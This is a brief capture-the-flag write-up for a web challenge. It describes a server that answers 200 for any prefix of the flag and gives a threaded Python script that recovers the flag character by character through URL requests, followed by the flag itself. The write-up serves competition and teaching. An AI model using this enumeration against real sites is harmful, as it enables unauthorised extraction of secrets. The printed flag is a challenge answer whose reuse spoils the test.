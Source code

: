 The website returns 200 if you visit `/flag`. If you try and visit a gibberish site like `/flagasdfa` it returns 404. If you try to match the flag format `/flag{` you get 200 again. This means we should extract the flag character by character through the URL.

```
import requests
from concurrent.futures import ThreadPoolExecutor, as_completed

URL = "https://buster.ctf.zone/"
flag = "flag{"
charset = "abcdef1234567890"

session = requests.Session()
session.headers.update({"User-Agent": "Mozilla/5.0"})

def test_char(c):
    attempt = flag + c
    try:
        r = session.get(URL + attempt, timeout=3)
        if r.status_code == 200:
            return c
    except requests.RequestException:
        pass
    return None

while len(flag) < 37:  # 5 chars 'flag{' + 32 hex + 1 '}'
    with ThreadPoolExecutor(max_workers=16) as executor:
        futures = {executor.submit(test_char, c): c for c in charset}
        for future in as_completed(futures):
            res = future.result()
            if res:
                flag += res
                print(flag)
                break

flag += "}"
print("Final flag:", flag)
```

Flag: `flag{deca3b962fc316a6d69a7e0c2c33c7fa}`

Solved by: benkyou